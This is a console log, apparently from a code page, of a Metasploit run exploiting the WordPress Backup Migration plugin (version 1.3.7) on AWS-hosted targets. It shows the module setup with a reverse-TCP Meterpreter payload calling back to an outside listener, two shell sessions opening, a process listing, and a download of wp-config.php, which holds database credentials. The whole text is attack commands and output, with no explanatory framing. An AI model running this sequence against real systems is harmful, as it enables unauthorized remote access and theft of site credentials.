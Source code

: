 ```console
...
resource (stdin)> use exploit/multi/http/wp_backup_migration_php_filter
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
resource (stdin)> set rhost a8fe9c409fcee4d7bbcbd9cab63193f8-449369653.eu-central-1.elb.amazonaws.com
rhost => a8fe9c409fcee4d7bbcbd9cab63193f8-449369653.eu-central-1.elb.amazonaws.com
resource (stdin)> set lhost 52.57.199.153
lhost => 52.57.199.153
resource (stdin)> set lport 443
lport => 443
resource (stdin)> run --no-interact
[*] Exploiting target 3.120.120.128
[-] Handler failed to bind to 52.57.199.153:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 3.124.173.56
[*] Meterpreter session 1 opened (10.192.10.244:443 -> 3.124.173.56:61739) at 2024-11-23 09:22:05 +0000
[*] Session 1 created in the background.
[*] Exploiting target 18.195.11.191
[-] Handler failed to bind to 52.57.199.153:443:-  -
[*] Started reverse TCP handler on 0.0.0.0:443
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Sending the payload, please wait...
[*] Sending stage (39927 bytes) to 3.124.173.56
[*] Meterpreter session 2 opened (10.192.10.244:443 -> 3.124.173.56:20234) at 2024-11-23 09:22:26 +0000
[*] Session 2 created in the background.
resource (stdin)> sessions --interact 1 --meterpreter-command ps --meterpreter-command sysinfo   --meterpreter-command "download /bitnami/wordpress/wp-config.php"
[*] Running 'ps' on meterpreter session 1 (3.120.120.128)

Process List
============

 PID  Name                                              User  Path
 ---  ----                                              ----  ----
 1    /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 309  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 310  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 311  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 312  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 313  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 314  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 316  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
 317  /opt/bitnami/apache/bin/httpd                     1001  /opt/bitnami/apache/bin/httpd -f /opt/bitnami/apache/conf/httpd.conf -D FOREGROUND
```